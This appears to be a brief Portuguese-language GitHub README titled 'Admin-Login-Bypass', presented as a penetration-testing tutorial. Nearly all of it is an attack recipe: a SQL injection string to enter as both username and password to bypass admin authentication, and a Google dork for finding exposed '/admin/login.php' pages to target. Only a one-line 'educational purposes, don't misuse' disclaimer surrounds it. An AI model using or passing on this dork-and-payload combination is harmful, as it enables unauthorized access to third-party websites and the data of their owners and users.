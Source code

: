 # Admin-Login-Bypass
 Teste de penetração em sites

Hoje neste tutorial mostrarei de forma simples como #bypass_admin_login nome de usuário e senha. Espero que seja util.

### Agora, tente isso para fins educacionais. Não use mal.


`Aqui eu te dou tudo isso #dork e #bypass_string.`


A #string é :-     '=' 'OR'     (Use-o para nome de usuário e senha)



Minha #Dork é :-     inurl: /admin/login.php
